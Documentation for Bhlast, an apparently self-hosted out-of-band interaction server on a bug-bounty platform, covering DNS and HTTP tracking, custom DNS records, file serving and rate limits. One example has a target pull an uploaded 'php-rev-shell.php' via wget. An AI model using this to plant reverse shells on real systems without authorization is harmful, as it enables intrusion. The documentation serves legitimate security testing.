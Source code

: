﻿# Bhlast

## Motivation

Blind attacks are somewhat difficult, since you have to have a server that will listen to interactions.

Burp collaborator is a great way to listen to interactions, but if you want your server to listen to interactions even when you are not hacking, you have to use some other site.

ProjectDiscovery published an amazing tool called [interactsh](https://github.com/projectdiscovery/interactsh), which allows you to self-host it to leverage some features.

Since this platform is meant to eliminate as much of the boring work that you need to do in order to be successful, and to work on the stuff while you are not hacking, having this functionality is a **must**.

Therefore, I decided to learn from their implementation, and start building it. The new implementation is not feature complete. It only supports DNS and HTTP(s) protocols. This is good enough to get started, and the rest will be added as needed.

::alert{type="info"}
Thank you to ProjectDiscovery for open-sourcing this great tool! Bhlast implementation is heavily influenced by your work!
::

## How it works?

New server is registered behind the [bhlast.com](https://bhlast.com) domain.

In order to create your unique server, you have to have an account on the [BountyHub](https://bountyhub.org) platform.

Each server gets random subdomain unique to your account. In order to avoid having spam notifications, please do not share your
`bhlast` server publically. Every interaction with this server will be tracked, and you will get notified for no good reason.

Server is listening on following:

::list{type="primary"}

- HTTP (TCP port 80)
- HTTPS (TCP port 443)
- DNS (TCP and UDP port 53)
- Serve static files
- Get notified on interactions

::

## Default behavior

To track interactions per user, each user will get unique
subdomain. Everything associated with that subdomain, or
subdomain of that subdomain will be tracked for your account.

### HTTP

When you visit the [bhlast.com](https://bhlast.com), static page will be displayed. This static page is only used to point you to the documentation, and to show basic information about this server.

The `bhlast.com` supports both HTTP and HTTPS. The same
server will be used to serve custom responses (soon), and
to serve static files. As with everything, if notifications
are configured, each interaction will issue a notification.

### DNS

The DNS server is created not only to track DNS
interactions, but also to provide a configurable way
you can use to serve CUSTOM DNS records.

For example, let's say your ID is `ng3iqaju5npgoeuo`.

Each interaction with `ng3iqaju5npgoeuo.bhlast.com` will
be recorded. However, let's say you want to create a
DNS record that will serve address for localhost.

You can create a subdomain with `A` record to point to
`127.0.0.1`. Let's call that record `localhost`. Now,
when `localhost.ng3iqaju5npgoeuo.bhlast.com` is requested,
the interaction will be tracked and the `A` record will
be served, pointing to `127.0.0.1`.

Learn more about how to configure the DNS server [here](/bhlast/config#dns).

## Server registration and configuration

### Registration

Once you are logged into the platform, on the right drawer, you will see tab named `Bhlast servers`. Click on it.

![Bhlast servers](/drawer-bhlast.png)

On top of the page, you will see `Register Server` button. Click on it, and you will be taken to the registration page.

## Working with your server

Your `bhlast` server can be used to:

- Track interactions
- Serve files
- Standard responses

### Tracking interactions

Interactions are shown for each request that is associated with your subdomain. The `[id]` portion of your subdomain is
the identifier used to associate interaction with it. In other words, let's say your subdomain is `lwwhkmc4n2ziyu3d`. Then
all traffic directed to `lwwhkmc4n2ziyu3d.bhlast.com` and `*.lwwhkmc4n2ziyu3d.bhlast.com` is registered associated with your
server.

![Bhlast logs](/bhlast-log.png)

### Serving files

Your server can also be used as a file server. Think of it as `python3 -m http.server 80`, but listening both on port 80 and 443.

In order to serve file, route `/-/` is exposed for that purpose.

As an example, let's say your server is located at `lwwhkmc4n2ziyu3d.bhlast.com`. You uploaded a `php-rev-shell.php`.
You can retrieve it by running `wget https://o66322a9ufqn02o0.bhlast.com/-/php-rev-shell.php`. The important thing to note
is that the interaction on your file server is also tracked, so you can later prove that server pulled the file.

### Standard responses

By default, subdomain reversed will be served as a string. However, there are special cases to change format
of responses.

| Path                     | Response format                                                        |
| ------------------------ | ---------------------------------------------------------------------- |
| Path ending with `.xml`  | The result will be in format `<data>[reverse subdomain string]</data>` |
| Path ending with `.json` | The result will be in format `{"data": "[reverse subdomain string]"}`  |
| `/robots.txt`            | `User-agent: *\nDisallow: / # [reverse subdomain string] `             |

## Rate limits

To avoid misuse or malicious use of bhlast servers, the rate limiter is implemented.

| Server type | Global rate limit / s | Per IP rate limit / s |
| ----------- | --------------------- | --------------------- |
| DNS         | 5000                  | 10                    |
| HTTP(s)     | 5000                  | 20                    |

Furthermore, if the number of questions in a DNS query exceeds 8, the DNS request will be rejected completely.
This should reduce DNS amplification attacks.

